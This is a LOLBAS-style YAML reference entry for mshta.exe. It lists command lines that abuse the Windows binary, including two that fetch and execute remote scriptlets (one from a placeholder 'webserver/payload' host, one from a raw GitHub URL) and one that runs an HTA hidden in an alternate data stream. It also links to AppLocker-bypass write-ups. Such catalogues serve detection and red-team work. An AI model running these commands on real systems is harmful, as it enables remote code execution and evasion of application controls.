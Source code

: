 ```yaml
---
Name: mshta.exe
Description: Execute, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    Description: Executes VBScript supplied as a command line argument.
  - Command: mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
Full Path:
  - C:\Windows\System32\mshta.exe
  - C:\Windows\SysWOW64\mshta.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md
  - https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Notes: Thanks to Casey Smith - @subtee, Oddvar Moe - @oddvarmoe
---
```

